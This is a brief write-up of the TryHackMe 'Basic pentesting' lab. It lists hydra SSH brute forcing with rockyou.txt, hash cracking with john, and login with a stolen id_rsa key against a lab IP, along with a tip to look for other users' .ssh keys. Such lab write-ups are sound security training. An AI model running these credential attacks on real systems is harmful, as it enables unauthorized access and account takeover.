 # Basic pentesting 🧭
Names | Details
--------|-----
Source | Tryhackme
Level     | Easy
Os | Linux

**Notes :**




## Gaining Access 😉

- enum4linux
- bruteforce with hydra using rockyou.txt



## Maintaining Access 🥷
- Got RSA key from user.
	- logged within host


## Important commands 🔥
- enum4linux -a  
- hydra -L /home/nms/Desktop/word -P /usr/share/wordlists/rockyou.txt ssh://10.10.99.93  
-  john --wordlist=/usr/share/wordlists/rockyou.txt hh.hash  
- ssh -i /home/kay/.ssh/id\_rsa kay@10.10.99.93

## Post Exploitation ✴️
- User flag : /home/user
- Root flag : /root/root
## Tips 💡
- enumerate linux machines using enum4linux
- search for .ssh in home directory of any user for privilege escalation

--------------------------------
**By Nibras Muhammed** 🤓🖥️






